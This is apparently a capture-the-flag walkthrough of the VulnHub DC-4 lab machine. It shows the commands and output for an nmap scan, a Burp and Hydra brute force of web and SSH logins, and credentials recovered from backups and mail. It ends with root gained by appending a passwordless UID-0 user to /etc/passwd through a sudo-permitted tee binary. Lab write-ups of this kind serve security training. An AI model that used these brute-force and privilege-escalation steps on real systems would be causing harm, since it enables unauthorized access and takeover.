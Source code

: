 DC4

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Brute Force web login password
[+] Execute commands on the server from UI
[+] Hydra brute force login credentials
[+] Privilege Escalation abusing SUDO rights -  teehee ---ading setrus in /etc/passwd
"setrus::0:0:::/bin/bash"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Host is up (0.00066s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
MAC Address: 08:00:27:B3:AB:48 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing to http://192.168.56.109 we found a login page

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC4/dc41.png)

Burp Intruder with username : admin
password :  rockyou.txt

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC4/dc42.png)

We can execute command on the server from the web application

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC4/dc43.png)

After browsing the server we found a password backup for user jim

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC4/dc44.png)


All this passwords have been put in a file.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# hydra -l jim -P passwords ssh://192.168.56.109
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-10-25 09:47:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 251 login tries (l:1/p:251), ~16 tries per task
[DATA] attacking ssh://192.168.56.109:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 75 to do in 00:01h, 16 active
[22][ssh] host: 192.168.56.109   login: jim   password: jibril04
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-10-25 09:49:07

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Username : jim
Password : jibril04


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh jim@192.168.56.109
jim@192.168.56.109's password: 
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Apr  7 02:23:55 2019 from 192.168.0.100
jim@dc-4:~$ id;whoami
uid=1002(jim) gid=1002(jim) groups=1002(jim)
jim

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jim@dc-4:~$ find / -user charles 2>/dev/null
/home/charles
/home/charles/.profile
/home/charles/.bashrc
/home/charles/.bash_logout
You have new mail in /var/mail/jim
jim@dc-4:/var/mail$ cat jim 
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Logging in as Charles

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jim@dc-4:/var/mail$ su charles
Password: 
charles@dc-4:/var/mail$ id
uid=1001(charles) gid=1001(charles) groups=1001(charles)
charles@dc-4:/var/mail$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
charles@dc-4:/var/mail$ echo "setrus::0:0:::/bin/bash" | sudo /usr/bin/teehee -a /etc/passwd
setrus::0:0:::/bin/bash
charles@dc-4:/var/mail$ su setrus
root@dc-4:/var/mail# id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





